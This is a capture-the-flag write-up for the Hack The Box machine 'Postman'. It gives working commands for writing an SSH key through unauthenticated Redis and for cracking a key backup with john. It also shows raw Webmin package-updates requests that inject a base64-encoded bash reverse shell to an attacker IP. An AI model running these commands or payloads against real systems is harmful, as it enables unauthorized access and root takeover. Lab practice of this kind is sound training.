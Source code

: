```yaml
---
title: Postman
tags: linux
---
```

![image](assets/79376241-e1fb0d00-7f27-11ea-96fd-634019e1fb3b.png)

## Overview

Postman is an Ubuntu box running webmin and redis. Redis (Remote Dictionary Server) is an in-memory data structure store, used as a database, cache and message broker and is designed to be accessed via trusted networks and not publicly exposed. I was able to connect to this service without authenticating, write an rsa public key to the authorized_keys file, and log in as the redis user. I found a backup of Matt's encrypted private key which I was able to crack and get Matt's password. Using Matt's password I was able to log onto Webmin and trick package_updates into executing a reverse shell as the user root.

## Enumeration

**Software**

* Ubuntu 18.04.3 LTS
* OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
* Apache 2.4.29
* Redis 4.0.9
* Webmin 1.910

**Port Scan**

```
nmap -v -Pn -sT -A -p- 10.10.10.160 -oN /mnt/data/boxes/postman/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp - http
* 6379/tcp - redis
* 10000/tcp - http

**Gobuster**

```
gobuster dir -u 10.10.10.160 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 40
```

* /index.html
* /images
* /upload
* /css
* /js
* /fonts

## Steps (user)

I started by browsing to http://10.10.10.160 which brought up a page with the text "Welcome to The Cyber Geek's Personal Website!" It was a simple webpage and I was not able to find anything on the site or in the source.

![image](assets/83975278-186a5e00-a8c1-11ea-98f7-ac0d23fdb2e6.png)

Next I browsed to http://10.10.10.160:10000 which showed an error message about accessing the site via https. It also showed the hostname so i added it to /etc/hosts.

![image](assets/83975806-dbec3180-a8c3-11ea-8516-0242e2459c5e.png)

I updated the url to https and tried again, I was presented with webmin login page. I didn't have a username and password at this point moved on.

![image](assets/83975838-02aa6800-a8c4-11ea-8b70-99741361d00c.png)

Port 6379 was identified by nmap as redis. I was able to connect using the redis-cli tool without authenticating.

```
redis-cli -h 10.10.10.160
```

![image](assets/83975876-338a9d00-a8c4-11ea-8231-1d677eccf881.png)

I did an internet search for redis exploits and came across a [blog](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419) that explains that it's possible to write a public rsa key to the root account providing the ability to log in via ssh.

First I needed to create an rsa key pair 

```
ssh-keygen -t rsa
```

![image](assets/83976310-4c488200-a8c7-11ea-806d-db18659da75b.png)

Then I copied the contents of id_rsa.pub, padded with newlines, to rsa.txt. 

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > rsa.txt
```

I piped the contents of rsa.txt to the redis-cli tool, set the keyname to rsa, with rsa being set to the contents of rsa.txt
```
cat rsa.txt | redis-cli -h 10.10.10.160 -x set rsa
```

Connecting to the host again via redis-cli and typing "set rsa" confirms that the last command was successful.

![image](assets/83976698-95013a80-a8c9-11ea-9696-188a3096325d.png)

Changing directory to /root fails with a permission denied error. After looking at the output of the 'config get dir' command it showed that I was in /var/lib/redis'. I then tried 'config set dir /var/lib/redis/.ssh' and received an 'OK' response meaning that the directory change succeeded.

```
config set dir /var/lib/redis/.ssh
```

![image](assets/83979800-ee279900-a8de-11ea-9719-7d90c6608685.png)

I could now proceed with writing rsa to the authorized_keys file.

```
config set dbfilename "authorized_keys"
save
```

![image](assets/83979824-1e6f3780-a8df-11ea-9806-59bffc510102.png)

I was now able to log in via ssh with the user redis, supplying the private key.

```
ssh -i id_rsa redis@10.10.10.160
```

> Note: This user did not have permission to read the user flag

After enumerating the filesystem I came across a file in /opt called id_rsa.bak which turned out to be an encrypted rsa key.

```
cat /opt/id_rsa.bak
```

![image](assets/83976886-f544ac00-a8ca-11ea-9a86-eda1b73d5e8a.png)

I copied /opt/id_rsa to my local system so I could try and crack the password.

```
scp -i id_rsa redis@10.10.10.160:/opt/id_rsa.bak .
```

I converted id_rsa.bak to john format and saved the file as id_rsa.john

```
/usr/share/john/ssh2john.py id_rsa.bak > id_rsa.john
```

I then fed that into john using the rockyou wordlist and specifying the id_rsa.john file.

```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
```

John successfully cracked the password - 'computer2008'

![image](assets/83976972-8ae03b80-a8cb-11ea-9fa8-ec3f38607761.png)

I was able to use the switch user command to become Matt (su Matt) using the 'computer2008' password when prompted.

## Steps (root/system)

Not finding and obvious privilege escalation paths after logging in as Matt, I tried his password to log into webmin and was successful. 

The page showed the version of Webmin that was running 1.910.

![image](assets/83977141-312c4100-a8cc-11ea-8a53-761be7f4d295.png)

I did a searchsploit search for webmin 1.910 and found 1 result.

![image](assets/83977167-68025700-a8cc-11ea-840d-0e81c1769fe7.png)

Reviewing exploit, it looks like uses post request to update with a reverse shell 

![image](assets/83977440-86695200-a8ce-11ea-8d7e-902eaea3be3f.png)

```
'data' => "u=acl/apt&u= | <payload>&ok_top=Update Selected Packages"
```

The exploit is using a post request to run commands, I started simple by trying the id command (bash -c id).

```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.160:10000/package-updates/?xnavigation=1
Connection: close
Cookie: redirect=1; testing=1; sid=ab017430a59fdc2c15a3548e6843bb27
Content-Type: application/x-www-form-urlencoded
Content-Length: 63

u=acl%2Fapt&u=+|+bash+-c+id%26ok_top=Update+Selected+Packages
```

![image](assets/84604011-1bd18c80-ae61-11ea-84ae-f924d1b285bb.png)


With the basic test working, I moved on to adding a command to create a reverse shell. I tried commands and wasn't having any luck. After reviwaing the metasploit exploit again, I noticed it base64 encodes the payload first, then decodes and executes it on the target box. 

I base64 decoded the command and then combined this with the command found in the exploit. This base64 encoded command is decoded then executed with bash -i

```
echo 'bash -i >& /dev/tcp/10.10.14.12/4200 0>&1' | base64 
bash -c "echo 'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80MjAwIDA%2bJjEK' | base64 -d | bash -i"
```

![image](assets/83980090-ec5ed500-a8e0-11ea-8c5c-c871d579d231.png)


I updated the post request in burp with the new command (url encoded)

```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.160:10000/package-updates/?xnavigation=1
Connection: close
Cookie: redirect=1; testing=1; sid=ab017430a59fdc2c15a3548e6843bb27
Content-Type: application/x-www-form-urlencoded
Content-Length: 152

u=acl%2Fapt&u=+|+bash+-c+"echo+'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80MjAwIDA%2bJjEK'+|+base64+-d+|+bash+-i"&ok_top=Update+Selected+Packages
```

After sending the command I received shell as root.

![image](assets/83979040-83c02a00-a8d9-11ea-921f-646357268b48.png)

